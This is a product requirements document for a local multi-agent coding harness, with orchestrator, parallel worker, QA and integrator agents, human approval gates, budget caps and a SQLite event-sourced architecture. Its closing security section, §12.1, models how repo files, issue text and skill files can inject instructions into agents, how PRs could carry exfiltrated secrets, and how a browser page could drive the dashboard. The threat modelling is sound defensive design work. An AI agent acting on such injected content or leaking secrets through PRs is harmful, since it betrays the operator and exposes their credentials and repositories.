

# PRD — Multi-Agent Development Harness (working name: "Harness")

| | |
|---|---|
| **Status** | v1.0 — critical-challenger review applied (continuous integration fix, v0.0 walking-skeleton phase, v0.1 minimal confinement, PERF-5/§11.6 reconciliation, SSE auth implementation note, cost figures marked as estimates) |
| **Date** | 2026-07-31 |
| **Owner** | cigan |
| **Target** | Open-source release |
| **Stack decisions** | Claude Agent SDK (TypeScript/Node) · local web dashboard · human gates at PRD approval + PR merge · GitHub Issues + PRs · skills-discovery via stdio MCP · git-worktree isolation · budget caps + live meter |

---

## 1. Executive Summary

Harness turns a one-paragraph assignment into reviewed, tested pull requests. An orchestrator agent (top-tier Claude model) interviews the assignment into a PRD and an epic/task breakdown filed as GitHub Issues. After the human approves the plan, a fleet of parallel Claude Sonnet worker agents implements components in isolated git worktrees, each armed with locally-discovered skills (SKILL.md files matched per-task by a stdio MCP server). Dedicated QA agents test each component adversarially and iterate with workers until acceptance criteria pass. An integrator merges branches and opens one PR per component, linked to its issue. The human merges — the harness never does. Throughout, a localhost web dashboard streams live agent activity, a task board, and token/cost meters with hard budget caps.

The product is a local-first, single-user tool in v1, built to be open-sourced: TypeScript monorepo, Claude Agent SDK core, SQLite state, no cloud dependency beyond the Anthropic and GitHub APIs.

## 2. Problem & Vision

### Problem

A single agent session — even a very strong one — hits four walls when asked to "build the product":

1. **No planning artifact.** Ad-hoc sessions produce code without a reviewable PRD/epic decomposition. The human can't correct course at the cheap moment (before the build) and can't audit scope drift afterward.
2. **Serial execution.** One context window implements one thing at a time. Independent components that could be built in parallel aren't, and one long session degrades as context fills.
3. **No adversarial QA.** The agent that wrote the code grades its own homework. Self-review reliably misses what a fresh, hostile reviewer with a test-writing mandate catches.
4. **No reuse of institutional knowledge.** Users accumulate skills (SKILL.md playbooks) that encode how they build auth, deploys, Stripe, QA — but nothing routes the right skill to the right task automatically.

Teams bolt these together manually today: they prompt for a plan, paste it back, open terminals side by side, and eyeball progress in scrollback. There is no surface to *monitor* a fleet, no budget control, and no resumability when something dies 40 minutes in.

### Vision

**Assignment in → reviewed PRs out, with a human at exactly two decision points.** The orchestrator behaves like a competent tech-lead: it writes the plan, staffs it with specialist workers, routes each worker the playbooks that make it good at its task, holds QA to acceptance criteria, and reports progress on a board you can glance at — while spending your money like it's its own.

Long-term, Harness becomes the reference open-source implementation of "software team as agent topology" on the Claude Agent SDK: pluggable skills, pluggable QA policies, inspectable state, and a run ledger that makes agent-built software auditable.

## 3. Target Personas

**P1 — The solo leverage-maximizer (primary).** Indie builder / consultant shipping multiple products simultaneously. Already lives in Claude Code, already maintains a personal skills library, already pays for API usage. Wants to hand off whole features, not functions, and supervise from a dashboard instead of babysitting a terminal. Success = more mergeable PRs per day at a predictable cost.

**P2 — The OSS-savvy tech lead.** Leads a small team; wants agent parallelism but will not accept auto-merge or opaque agents. Needs the human gates, the audit log, and GitHub-native artifacts (issues, linked PRs) so agent work flows through the team's normal review process. Success = agent PRs indistinguishable in quality-process from human PRs.

**P3 — The agent-tooling tinkerer.** Builds on the Agent SDK, wants a serious, hackable reference orchestrator: state machine, scheduler, MCP integration, budget enforcement — real production patterns, not a demo. This persona is who contributes back. Success = can swap a component (QA policy, skill matcher) without forking the core.

## 4. Competitive Landscape & Differentiators

| Tool | What it is | What it lacks vs Harness |
|---|---|---|
| Claude Code (solo + Agent tool/teams) | Interactive agent with subagent fan-out | No durable plan artifact, no persistent run state across restarts, no fleet dashboard, no budget caps, QA is ad-hoc |
| GitHub Copilot coding agent | Issue → PR agent in GitHub's cloud | One agent per issue, no local skills, no orchestrated decomposition, closed runtime |
| Devin / cloud "AI engineer" | Managed autonomous engineer | Closed, expensive, no local-first, no skill library reuse, limited process control |
| OpenHands | OSS autonomous dev agent | Single-agent-centric; no PM-grade planning gate, no per-task skill routing, weaker parallel orchestration |
| claude-flow / agent swarm frameworks | Orchestration frameworks | Frameworks, not products: no opinionated SDLC (PRD→issues→QA→PR), no dashboard, no budget governance |
| MetaGPT / CrewAI / LangGraph | Multi-agent frameworks (role play / graphs) | Bring-your-own-everything; no git/GitHub-native delivery loop, no worktree isolation, no cost enforcement |

**Differentiators (the five bets):**

1. **The plan is a first-class, human-gated artifact** — a real PRD + issue DAG you approve/edit before a token is spent on code.
2. **Adversarial QA as a separate agent class** with test-writing mandate and bounded iteration — not self-review.
3. **Skill routing**: your existing SKILL.md library is automatically matched to tasks and injected — institutional knowledge compounds.
4. **Cost governance is load-bearing, not a meter widget**: pre-call cap enforcement, pause-on-breach, cost-per-merged-PR as the headline KPI.
5. **Local-first + git/GitHub-native**: state in SQLite you can query, artifacts in git you can inspect, delivery via issues/PRs your team already reviews.

## 5. Product Scope & End-to-End Flow

```
Assignment ──► PLANNING (orchestrator agent: PRD + epic/task DAG, issues drafted)
                    │
             ┌──────▼──────┐
             │  GATE 1     │  human approves / edits / rejects plan (dashboard)
             └──────┬──────┘
                    ▼ issues filed on GitHub
              EXECUTING (scheduler dispatches ready tasks)
                    │  per task: worktree + branch ► worker (skills injected)
                    │            ► deterministic checks ► QA agent (≤3 iterations)
                    │  accepted tasks merge CONTINUOUSLY into the run branch
                    │  (serial, full suite per merge, conflict agent ≤2 attempts,
                    │   else human gate) ► PR opened per component as it lands
                    ▼
              INTEGRATING (all tasks terminal; final merges/PRs draining)
             ┌──────▼──────┐
             │  GATE 2     │  human reviews & merges PRs on GitHub — never the harness
             └─────────────┘
```

Cross-cutting: pause/resume/abort from the dashboard at any time; budget caps pause the run; the whole run survives process restart and resumes idempotently.

**Explicitly in scope (v1):** one target repo per run; GitHub Issues + PRs (no Projects board); Claude models only; macOS/Linux.
**Explicitly out of scope (v1):** auto-merge, multi-repo runs, team/multi-user features, cloud deployment, non-Claude model backends, Windows, GitHub Projects sync. See §11 for phasing and §13/§14 for security/performance scope cuts.

## 6. User Stories & Acceptance Criteria

### Epic A — Assignment intake & planning

- **US-1** As an operator, I submit an assignment (free text + target repo path) via CLI or dashboard and a run is created. *AC: `harness run "<assignment>"` creates a Run in state `PLANNING`; dashboard shows it within 2s.*
- **US-2** As an operator, I get a generated PRD (markdown, committed to a run branch) plus an epic/task breakdown with dependencies and acceptance criteria per task. *AC: PRD file exists in repo on `harness/<runId>/main`; every task has ≥1 testable acceptance criterion, a `dependsOn` list, and estimated size; the DAG validates (no cycles, no dangling refs).*
- **US-3** As an operator, I see drafted GitHub issues before anything is filed. *AC: zero GitHub writes occur before Gate 1 approval.*

### Epic B — Gate 1: plan approval

- **US-4** As an operator, I approve, reject-with-feedback, or edit the plan in the dashboard. *AC: approve → issues filed and state → `EXECUTING`; reject → planner re-plans incorporating my feedback verbatim; edits (split/merge/reword/reorder tasks) are persisted and used as-approved.*
- **US-5** As an operator, what I approved is exactly what gets built. *AC: approval stores a content hash of the plan; any post-approval mutation refuses to start the build (SEC-13).*

### Epic C — Task execution & skills

- **US-6** As an operator, ready tasks run in parallel up to a configured limit, each in its own worktree + branch. *AC: `maxParallelWorkers` respected; no two workers share a worktree; branches named `harness/<runId>/<taskId>`.*
- **US-7** As an operator, each worker is briefed with the task spec, acceptance criteria, the plan's conventions doc, and matched skills. *AC: skills-discovery MCP queried per task; matched skills appear in the worker system prompt (full text ≤1.5k tokens, else by-reference per PERF-4); injection audit-logged with skill hash (SEC-14/15).*
- **US-8** As an operator, workers commit incrementally so progress survives crashes. *AC: killing a worker mid-task and resuming loses at most the work since its last commit; recovery cost ≤30% of task cost-to-date (PERF-8).*

### Epic D — QA loop

- **US-9** As an operator, every completed task passes deterministic checks (build, lint, typecheck, existing tests) before any QA tokens are spent. *AC: deterministic failures return to the worker without spawning a QA agent.*
- **US-10** As an operator, a QA agent reviews the diff against acceptance criteria and writes/runs new tests. *AC: QA verdict is structured `PASS | FAIL(reasons[], mustFix[])`; new tests are committed to the task branch.*
- **US-11** As an operator, QA↔worker iteration is bounded. *AC: after 3 failed iterations the task parks in `NEEDS_HUMAN` with diff, verdicts, and a summary; the run continues on independent DAG branches (PERF-5).*

### Epic E — Integration & PRs

- **US-12** As an operator, accepted branches merge serially into the run branch with the full test suite after each merge. *AC: a merge that breaks the suite triggers the conflict/repair flow, never lands silently.*
- **US-13** As an operator, each component ships as a PR linked to its issue. *AC: PR body references the issue and the run; re-running after a crash never duplicates issues or PRs (idempotency markers, ADR-7); the harness has no code path that merges PRs (SEC-17).*
- **US-13a** As an operator, a run is not complete until something the repository owns has built and tested the merged branch, with a coverage floor the build fails under. Every other check in this system runs in a per-task worktree that the merged tree never was. *AC: the plan gate reports a plan with no CI task and a plan with no enforced coverage floor, on every plan and not only when the brief asked (`ciScan`); the planner is instructed to emit a pipeline task whose criteria name the floor as a number — 80% of the lines a change touches, 75% of the project — and to put one end-to-end test of the critical user path in it; a pull request whose checks come back `none` is reported as "NO CI — nothing checked the merged branch" in the run outcome and logged against the run, never omitted (a repo with no CI must not produce the same headline as a green one).*

### Epic F — Dashboard & monitoring

- **US-14** As an operator, I see a live task board (DAG states), per-agent log tails, and per-run/per-task cost meters. *AC: event latency ≤2s; UI responsive with 10+ live agents (≤10 frames/s/client coalescing, virtualized logs).*
- **US-15** As an operator, I can pause, resume, and abort a run, and resolve gates, from the dashboard. *AC: pause quiesces within one agent turn (+60s grace); all controls require the per-run bearer token and pass Origin/Host checks (SEC-10..12).*

### Epic G — Budget

- **US-16** As an operator, I set one budget cap for the run, and can raise it live from the dashboard at any time, not only once it is reached; a breach pauses before the next API call. *AC: synthetic low-cap run pauses with ≤5% overshoot (PERF-7); dashboard offers raise/skip/abort.*
- **US-17** As an operator, I can see where money went. *AC: per-task and per-phase cost breakdown, cache hit rate, and cost-per-merged-PR are queryable after every run.*

### Epic H — Resilience

- **US-18** As an operator, `harness resume <runId>` after any crash — including mid-integration — continues without duplicating work. *AC: completed tasks never re-execute; interrupted sessions respawn from last commit + checkpoint preamble; open gates remain open.*

## 7. MVP Phasing

**v0.0 (walking skeleton — validate the bet before building the surface):** CLI only, no dashboard, no parallelism. One planner → plan approved in terminal → **one** worker in **one** worktree → deterministic checks → **one** QA agent (3-iteration cap) → branch pushed + PR opened. SQLite state + resume from day one (it shapes every interface; retrofitting is a rewrite). Purpose: measure the two numbers everything depends on — *QA first-pass rate* and *real cost per merged PR* — on 3–5 reference assignments. If those numbers are bad, we fix prompts/decomposition before writing a single dashboard component.

**v0.1 (must-have, the credibility bar):** CLI (`init/run/resume/dashboard`); planner → PRD + DAG → Gate 1 (approve/reject only, no in-UI plan editing); parallel workers in worktrees; skills MCP with lexical matching over configured dirs; deterministic checks + single QA agent, 3-iteration cap; serial integrator (auto-merge attempt, human gate on conflict — no conflict agent yet); issues + linked PRs, idempotent; dashboard: board, log tails, cost meters, gate buttons, pause/resume/abort; SQLite event-sourced state + full resume; budget caps; SEC-1..5, 8..13, 16, 17; PERF-1, 3, 5, 7; **minimal Bash confinement** (macOS Seatbelt profile scoping writes to the worktree + path-canonicalization checks in file tools — the full SEC-6/7 cross-platform sandbox lands in v1.0, and until then the docs state plainly: run repos you trust).

**v0.2:** in-dashboard plan editing (split/merge/reorder); semantic skill matching + trust levels (SEC-14/15 full); integrator conflict agent; model routing to Haiku for mechanical steps (PERF-6); stall detection + nudge; per-repo `harness.config.ts` QA check definitions; cost forecasting at Gate 1 ("this plan will cost ≈$X").

**v1.0 (OSS launch):** OS sandboxing (Seatbelt/bubblewrap) per SEC-6/7; run replay UI from the event log; skills provenance UI; docs site, `SECURITY.md`, pinned CI, provenance publishes (SEC-18); plugin points per ADR-6; benchmark suite publishing cost-per-merged-PR on reference assignments.

Ruthlessly excluded until post-1.0: multi-repo, teams/RBAC, cloud/hosted mode, non-Claude backends, GitHub Projects, Windows, container-per-agent isolation.

## 8. Success Metrics

**Product KPIs:** ≥60% of runs reach a mergeable PR with zero human code edits (v1 target; measure from day one). Cost per merged PR (headline; publish reference numbers). Time-to-first-PR for a medium assignment ≤60 min. QA first-attempt pass rate ≥60% (below 40% = planner/skill quality problem). Cache hit rate ≥85% (PERF-1). Zero secret leaks into any sink (SEC-3 canary in CI).

**OSS KPIs (post-launch):** first external contributor PR ≤30 days; 20+ non-trivial external issues in 90 days; time-to-first-response on issues ≤48h; ≥3 community-contributed skill packs or QA policies in 6 months.

## 9. Naming

"Harness" collides fatally with Harness.io (CI/CD company) — rename before OSS release. Candidates (trademark/collision check required before launch):

1. **Ensemble** — many players, one score, one conductor; exactly the product's shape. No major dev-tool collision.
2. **Atelier** — a master's workshop staffed by apprentices producing reviewed work. Distinctive, memorable.
3. **Overture** — the orchestral piece *before* the show: the plan before the build. (Overture Maps exists; different domain.)
4. **Guildhall** — where guild craftsmen coordinate work and certify quality. Evokes skills/credentialing.
5. **Charette** — an intense, structured, deadline-bound collaborative design sprint; obscure but precise.

Rejected: Foreman (theforeman.org), Maestro (mobile.dev's testing framework), Conductor (Netflix Conductor).

## 10. Product Risks

| Risk | Impact | Mitigation |
|---|---|---|
| **Trust cliff**: one bad run (broken PRs, burned budget) and the user reverts to interactive Claude Code | Adoption death | Human gates, hard caps, visible QA verdicts, resume-not-restart; ship reference runs with published costs so expectations are calibrated |
| **Cost sticker shock**: $30–90 per medium run reads as expensive vs. an IDE subscription | Adoption | Reframe against the alternative (hours of senior time); cost forecasting at Gate 1; cost-per-merged-PR benchmarks; Haiku routing |
| **Planner quality ceiling**: bad decomposition poisons everything downstream | Output quality | Gate 1 is editable (v0.2); DAG validation; conventions doc; small-task guidance; treat QA first-pass rate as the planner's grade |
| **Anthropic-only lock-in narrows the OSS audience** | Community size | Own the position: "the reference Claude Agent SDK orchestrator"; ADR-6 keeps a seam for future backends without promising them |
| **Category noise**: "another multi-agent framework" | Differentiation | Ship as a *product* with an opinionated SDLC, benchmarks, and a dashboard — not a framework; demos lead with the board + PRs, not YAML |

---

## 11. Architecture

### 11.1 System Overview and Component Architecture

Harness is a **modular monolith**: one Node.js process (`harnessd`) hosts the orchestrator core, scheduler, agent pool, worktree manager, GitHub adapter, QA pipeline, integrator, event bus, and dashboard backend as in-process modules with typed interfaces. The skills-discovery MCP server runs as a separate stdio child process. Agents are Claude Agent SDK sessions (no separate OS processes beyond what the SDK spawns). One process means one write path to state, no distributed coordination, and trivial local install — the right trade for a single-user local tool. All modules communicate through the event bus and the state store; no module calls another's internals directly.

**Orchestrator Core** — owns run semantics. Drives the run state machine, invokes the planning agent (top-tier model) to produce the PRD + epic/task DAG, enforces human gates, and reacts to events (task finished, QA verdict, budget breach). Interface: `RunController` (`startRun`, `approvePlan`, `pause`, `resume`, `abort`, `resolveGate`). It is the *only* writer of run/task state transitions — everything else requests transitions through it, which makes invariants enforceable in one place.

**Scheduler** — maintains the task DAG and ready queue. Emits `task.ready` when all dependencies are `MERGED`-or-`ACCEPTED`; respects `maxParallelWorkers` (default 3) and per-run budget headroom before dispatch. Interface: `next(): Task | null`, `onTaskTerminal(taskId, outcome)`. Pure function of persisted state — restartable by re-derivation, holds no private state.

**Agent Pool** — wraps the Claude Agent SDK (TypeScript). Manages concurrent `query()` sessions, one per active agent (planner, worker, QA, integrator roles differ only in system prompt, model, allowed tools, and cwd). Responsibilities: session spawn/kill, streaming SDK messages onto the event bus, token/cost extraction from SDK usage messages into the BudgetLedger, per-session timeout and turn caps. Interface: `spawn(spec: AgentSpec): AgentHandle`, `AgentHandle.stream/interrupt/kill`.

**Skills-Discovery MCP Server** (`packages/skills-mcp`) — standalone stdio MCP server. Indexes SKILL.md frontmatter + body from configured dirs (`~/.claude/skills`, `~/skills`, `<repo>/.claude/skills`), builds a lexical (BM25) + embedding index, exposes `search_skills(taskDescription, k)` and `describe_skill(name)`. The orchestrator calls it once per task at dispatch time and injects the top-k matched skill contents (capped by a token budget, ~8k tokens) into the worker's system prompt. Runs out-of-process so it is independently testable and reusable from Claude Code directly.

**GitHub Adapter** — the only module that talks to GitHub (Octokit REST). Creates issues (epic/task, labels, milestones), opens PRs linked to issues, posts status comments. All writes are idempotent: it searches for an existing artifact by a deterministic marker (`harness-run:<runId>/task:<taskId>` in body) before creating, so replays after a crash never duplicate issues/PRs. Interface: `ensureIssue`, `ensurePR`, `comment`, all returning canonical IDs stored on the Task.

**Worktree Manager** — provisions `git worktree add ../<repo>-wt/<taskId>` + branch `harness/<runId>/<taskId>` per worker; disposes worktrees on task terminal states (configurable retention for post-mortem). Serializes all mutating git commands in the main repo through a single async mutex — git's global locks are the classic corruption source with parallel worktree ops.

**QA Pipeline** — per task, after the worker reports done: runs deterministic checks first (build, lint, typecheck, existing tests) directly via child_process — no tokens spent on what a shell can decide — then spawns a QA agent (Sonnet) in the same worktree to review the diff against acceptance criteria and write/run additional tests. Emits a structured verdict: `PASS` | `FAIL(reasons[], mustFix[])`. Failure reasons are fed back verbatim into a fresh worker iteration.

**Integrator** — merges task branches into the run's integration branch `harness/<runId>/main` **continuously, as each task reaches `ACCEPTED`** (not as a final phase): merge in dependency order, run the full test suite after each merge, drive conflict resolution (attempt `git merge`; on conflict spawn an integrator agent scoped to conflicted files only; cap 2 attempts then escalate to a human gate), then push and ask the GitHub Adapter to open that component's PR immediately. Continuous merging is what makes dependencies real: a task whose `dependsOn` includes A only becomes ready after A is *merged*, and its worktree branches from the integration branch that now contains A's code. Strictly serial — one merge at a time.

**Event Bus + Persistence** — a thin in-process typed emitter backed by an **append-only `events` table in SQLite**. Every event is written to SQLite *before* being emitted in-memory (write-ahead pattern). Materialized state tables (runs, tasks, sessions, ledger) are updated in the same transaction as the event insert. This gives us: crash-consistent state, a complete audit trail, and dashboard replay for free.

**Dashboard** — backend: Fastify server in the same process, serving REST commands (`POST /runs/:id/approve|pause|resume|abort`, gate resolutions) and an SSE stream (`GET /runs/:id/events`). Frontend: React + Vite SPA, static files served by the same Fastify instance on `localhost:4777`. Views: epic/task board (DAG view), per-agent live log tail, budget meters, gate/approval banner, run controls.



### 11.2 Run Lifecycle State Machine

Run states: `CREATED → PLANNING → PLAN_REVIEW (Gate 1) → EXECUTING → INTEGRATING → PR_REVIEW (Gate 2, terminal-for-harness)`; cross-cutting: `PAUSED`, `BUDGET_HOLD`, `FAILED`, `ABORTED`.

- `CREATED → PLANNING`: user submits assignment; planner agent drafts PRD + DAG.
- `PLANNING → PLAN_REVIEW`: PRD committed to repo branch, issues *drafted* (not yet filed). **Gate 1**: user approves/edits/rejects in dashboard. Approve → issues filed on GitHub → `EXECUTING`. Reject-with-feedback → back to `PLANNING`.
- `EXECUTING`: scheduler dispatches ready tasks; per-task sub-machine below. Integration is **continuous** — the integrator merges each `ACCEPTED` branch into the run branch and opens its PR as it lands (see Integrator, §11.1) — so `INTEGRATING` as a run state means "all tasks terminal, final merges/PRs draining", not a separate phase where integration first begins.
- `INTEGRATING → PR_REVIEW`: last PRs opened. **Gate 2**: humans review/merge on GitHub; the harness never merges. The run is complete from the harness's perspective; a background poller updates PR merge status for the board.
- Any state → `PAUSED` (user) or `BUDGET_HOLD` (cap hit): in-flight agent turns finish (SDK interrupt after a 60s grace), no new dispatch. Resume returns to the prior state.
- `FAILED` only when the run cannot proceed without restructuring (e.g., planner cannot produce a valid DAG after retries); individual task failure does *not* fail the run — it parks the task in `NEEDS_HUMAN` and continues independent branches of the DAG.

Task sub-machine: `PENDING → READY → WORKING → QA → (QA_FAILED → WORKING)* → ACCEPTED → MERGED`, failure exits `NEEDS_HUMAN` (from iteration-cap, worker crash-cap, or merge-conflict escalation) and `CANCELLED`.

**Resume semantics (survives orchestrator restart).** All transitions are event-sourced writes committed transactionally before any side effect proceeds. On startup, `harnessd` loads runs not in a terminal state, rebuilds scheduler state from the tasks table, and reconciles: (a) sessions marked `RUNNING` with no live process are marked `INTERRUPTED`; their tasks revert to `READY` (the worktree is kept; the respawned worker gets a "resume: here is prior progress" preamble built from the session's last checkpoint commit — workers are instructed to commit incrementally, so work is rarely lost); (b) GitHub side effects are re-run through idempotent `ensure*` calls; (c) gates that were open remain open. Agent SDK sessions themselves are not resumable across process death and are treated as disposable — durable truth lives in git commits + SQLite, never in agent memory.

### 11.3 Data Model (SQLite, key fields)

- **Run**: `id, repoPath, assignment, state, prdPath, integrationBranch, config (json: maxParallel, budgets, models), createdAt, updatedAt`.
- **Epic**: `id, runId, title, githubIssueNumber, milestoneId, order`.
- **Task**: `id, runId, epicId, title, spec (md), acceptanceCriteria (json), dependsOn (json ids), state, branch, worktreePath, githubIssueNumber, prNumber, qaIterations, assignedSkills (json), errorSummary`.
- **AgentSession**: `id, taskId?, runId, role (planner|worker|qa|integrator), model, sdkSessionId, state (running|done|interrupted|killed), startedAt, endedAt, turns, inputTokens, outputTokens, cacheReadTokens, costUsd, lastHeartbeatAt`.
- **Artifact**: `id, taskId, kind (prd|diff|test-report|qa-verdict|pr|log), path|url, sha, meta (json)`.
- **Event**: `seq (autoincrement PK), runId, taskId?, sessionId?, type, payload (json), ts`. Append-only; `seq` doubles as the SSE cursor.
- **BudgetLedger**: `id, runId, taskId?, sessionId, model, inputTokens, outputTokens, cacheTokens, costUsd, ts` — one row per SDK usage report; caps checked against `SUM()` per run/task before each dispatch and each agent turn.
- **Gate**: `id, runId, kind (plan|integration-conflict|budget|task-escalation), state (open|approved|rejected), payload, resolvedBy, resolvedAt`.

### 11.4 Event / Streaming Model

**Transport: SSE, not WebSocket.** Dashboard traffic is ~99% server→client; commands are discrete REST POSTs. SSE gives automatic reconnection with `Last-Event-ID` (set to the event `seq`, so a reconnecting dashboard replays exactly what it missed from the events table — resumable streams for free), works over plain HTTP/1.1+, and removes an entire class of bidirectional-state bugs. WebSocket would only pay off for high-frequency client→server input (e.g., interactive terminal into an agent), which is explicitly out of scope for v1; if added later it can ride a dedicated WS endpoint without touching the SSE contract.

Event taxonomy (namespaced, versioned payloads): `run.*` (created, state_changed, gate_opened, gate_resolved, budget_updated, paused, resumed), `task.*` (ready, dispatched, state_changed, qa_verdict, escalated), `agent.*` (spawned, message_delta, tool_use, turn_complete, usage, ended, stalled), `git.*` (worktree_created, commit, merge_conflict, merged), `github.*` (issue_created, pr_opened, pr_status). `agent.message_delta` is high-volume; it is throttled/coalesced to ~10 Hz per session for the stream and stored as rolled-up per-turn artifacts rather than per-token rows to keep SQLite lean.

### 11.5 Concurrency and Dependency Handling

The planner must emit tasks with explicit `dependsOn` edges; the orchestrator validates the DAG (cycle check, dangling refs) before Gate 1 — an invalid DAG bounces back to the planner with the validation errors. Scheduling is classic Kahn-style: a task enters the ready queue when every dependency is `MERGED` into the integration branch — its worktree then branches from that updated integration branch, so dependency code is actually present. (`ACCEPTED`-not-yet-merged is not sufficient: the dependent's worktree would lack the dependency's commits. Tasks with no `dependsOn` edges are unaffected and parallelize freely.) Dispatch loop: while `running < maxParallelWorkers` and projected cost (rolling avg cost/task) fits budget headroom, pop by priority (critical-path length desc, then planner-assigned order). File-overlap is treated as a soft signal: the planner annotates likely-touched paths per task; the scheduler avoids co-scheduling tasks with overlapping paths when alternatives exist, but correctness never depends on it — the integrator + QA catch real conflicts. All merges, main-repo git ops, and GitHub writes are serialized through per-resource async mutexes; SQLite in WAL mode with a single writer connection handles the rest.

### 11.6 Failure Handling

- **Worker crash / SDK error**: session marked `INTERRUPTED`, task → `READY`, respawn with resume preamble (§11.2). Cap: 3 spawns per task, then `NEEDS_HUMAN` with logs attached.
- **Stuck agent**: liveness = SDK stream activity heartbeat. No output for `stallTimeout` (default 5 min) → `agent.stalled` event + one nudge (interrupt with "report status and continue"); still silent after 2 min → kill and treat as crash. Hard wall-clock cap per task (default 45 min) and per-session turn cap regardless.
- **QA rejection loop**: each `FAIL` verdict re-dispatches the *same worker session if alive* (cheap: context is warm) with the structured mustFix list; **cap 3 QA iterations per task**, then `NEEDS_HUMAN` gate with the diff, verdicts, and a one-paragraph agent-written summary of the disagreement. This cap is the primary cost-runaway defense.
- **Merge conflicts**: integrator agent attempt (scoped to conflict hunks), max 2 attempts, full test suite must pass post-resolution; else `integration-conflict` gate — the human resolves in the worktree and clicks resume.
- **API rate limits / 529 overload**: Agent SDK retries handle transient cases; on sustained 429/529 the pool applies global exponential backoff with jitter and halves effective parallelism until a 10-min clean window, emitting `run.throttled` so the dashboard explains the slowdown. Budget checks run *before* each turn, so backoff never bypasses caps.
- **Budget breach**: the run's single budget cap trips at the next turn boundary → `BUDGET_HOLD`, everything quiesces, user (or a delegated skill) raises the cap or parks the run. The cap can also be raised proactively, before it is ever reached, from the dashboard header or the CLI's live `budget run <usd>` stdin command.
- **Partial resume**: because task state, branches, worktrees, issues, and PRs are all idempotently keyed, `harness resume <runId>` after any crash — including mid-integration — reconciles and continues; completed tasks are never re-executed.

### 11.7 Key Decisions (ADR summaries)

- **ADR-1: SQLite (better-sqlite3, WAL) as the only store** over Postgres or JSON files. Drivers: zero-install local tool, single writer, transactional event log + state in one commit. Costs: no multi-process writers (fine — modular monolith), migrations needed (use a lightweight migrator). Reversal trigger: multi-user/server deployment.
- **ADR-2: Modular monolith** over per-agent worker processes. Drivers: shared state simplicity, one process to supervise, SDK already isolates agent execution. Cost: a hard crash takes down all sessions — mitigated by resume semantics being first-class (§11.2). Reversal trigger: need for OS-level sandboxing per worker (then: spawn workers as child processes speaking a thin IPC protocol; interfaces already permit this since the pool is the only session owner).
- **ADR-3: SSE over WebSocket** (§11.4).
- **ADR-4: pnpm monorepo**: `packages/core` (orchestrator, scheduler, pool, integrator, QA, adapters), `packages/skills-mcp`, `packages/dashboard` (frontend), `packages/shared` (event/type contracts, zod schemas), `apps/cli` (`harness` binary: `init`, `run`, `resume`, `dashboard`). Shared zod schemas are the contract between backend and frontend and validate every event payload.
- **ADR-5: git + GitHub as artifact source of truth; SQLite as coordination truth.** No code content in the DB; the DB stores refs (shas, branch names, issue/PR numbers). Makes state small, resumable, and human-inspectable with plain git.
- **ADR-6: Plugin points, narrow on purpose**: (a) skills dirs are configurable; (b) QA deterministic checks defined in `harness.config.ts` per repo; (c) model/role mapping configurable; (d) MCP servers can be attached per role. Not pluggable in v1: VCS (git only), forge (GitHub only), agent runtime (Claude Agent SDK only) — abstraction there would triple interface surface for zero current users.
- **ADR-7: Idempotency-marker pattern for all external writes** (GitHub body markers, deterministic branch names) instead of a distributed-transaction outbox. Simpler, observable, and sufficient at this scale.

### 11.8 Top Architecture Risks

1. **Cost runaway via agent loops** (worker↔QA churn, stuck agents). Mitigations: iteration caps, turn caps, stall detection, pre-turn budget checks, per-task caps with escalation gates. Highest-likelihood risk; the caps are non-configurable-below-defaults deliberately.
2. **Planner emits a bad decomposition** (wrong granularity, hidden coupling) — everything downstream inherits it. Mitigations: DAG validation, Gate 1 with *editable* plan (user can split/merge/reorder tasks in the dashboard before approval), touched-paths annotations, small-task guidance in the planner prompt.
3. **Parallel workers make globally inconsistent choices** (duplicate utilities, divergent conventions). Mitigations: planner emits a shared "conventions + interfaces" doc injected into every worker prompt; integrator runs full suite per merge; accept residual risk in v1 and surface it to Gate 2 reviewers.
4. **Git worktree edge cases** (locks, dirty states, orphaned worktrees after crashes). Mitigations: serialized main-repo ops, `worktree prune` + reconcile on startup, worktrees live outside the repo dir.
5. **SQLite event-log growth / SSE replay cost on long runs.** Mitigations: delta coalescing, per-turn rollups, `harness gc` compaction of terminal runs; ceiling is comfortably high for single-user scale.
6. **Anthropic API instability mid-run** stalls a 2-hour run. Mitigations: global backoff + parallelism shedding, `BUDGET_HOLD`-style quiesce rather than failure, resume-from-anywhere semantics so users can simply retry later.

---

## 12. Security

### 12.1 Threat Model (STRIDE-lite)

**Actors.** (a) The *operator* — the human running the harness; trusted, and the only source of approvals. (b) *Agents* (orchestrator, workers, QA, integrator) — semi-trusted: they act in good faith but are steerable by anything in their context window. (c) *Repo and internet content* — files in the target repo, issue/PR text, dependency READMEs/docs, package install scripts; untrusted input. (d) *Skill authors* — SKILL.md files are executable instruction content; trust varies by origin. (e) *Local network / browser* — any page the operator's browser loads can attempt requests toward the dashboard; hostile. (f) *OSS ecosystem* — contributors to and consumers of this project; supply-chain relevant.

**Assets.** Anthropic API key (spend + account); GitHub token (write access to repos, issues, PRs); project `.env` secrets inside the target repo; integrity of the target repo and of opened PRs; the operator's host filesystem; run budget (money); integrity of the human gates (PRD approval, pause/abort) and of the audit trail.

**Trust boundaries.**
1. **Content → model context.** Everything an agent reads (repo files, issue text, dep docs, skills) crosses from *data* to *potential instructions*. This is the defining boundary of the system and it cannot be fully closed — only constrained in blast radius.
2. **Agent → host.** Tool calls (Bash, file I/O) cross from model output to real side effects.
3. **Worktree → rest of filesystem.** Each worker's writable universe must end at its worktree.
4. **Harness → GitHub.** Outbound writes (branches, PRs, issues) are the primary exfiltration channel — PRs are public-ish, durable, and expected output, making them the perfect cover.
5. **Browser → dashboard.** Localhost is not a security boundary against a browser: DNS rebinding and CSRF let a remote page drive `127.0.0.1` endpoints.
6. **Skills index → orchestrator prompt.** The MCP server converts local files into injected instructions for *every* matched worker — a one-to-many amplifier.
7. **Us → the world.** Released OSS: our npm package, CI, and release pipeline are targets.

